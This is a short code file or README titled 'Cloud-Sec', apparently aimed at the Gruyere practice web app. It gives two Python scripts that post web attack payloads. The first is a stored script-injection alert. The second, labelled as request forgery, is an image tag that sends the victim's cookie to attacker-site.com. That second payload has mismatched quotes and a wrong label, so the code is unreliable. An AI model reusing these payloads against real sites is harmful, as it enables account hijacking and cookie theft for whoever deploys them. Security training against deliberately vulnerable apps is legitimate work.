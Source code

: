 # Cloud-Sec
create code that can automatically exploit its documented vulnerabilities.


**Python Code for Cross-Site Scripting**

import requests
payload = "<script>alert('XSS Attack!');</script>" 
document_id = "your-document-id"
url = f"http://gruyere-app.com/feedback?id={document_id}" 
data = {"feedback": payload} 
response = requests.post(url, data=data)
print(response.text)


**Python Code for Cross-Site Request Forgery**
import requests
payload = '<img src="http://attacker-site.com/steal?cookie=" + document.cookie + '">';' 
url = "http://gruyere-app.com/settings" 
data = {"description": payload} 
response = requests.post(url, data=data)
print(response.text)
  
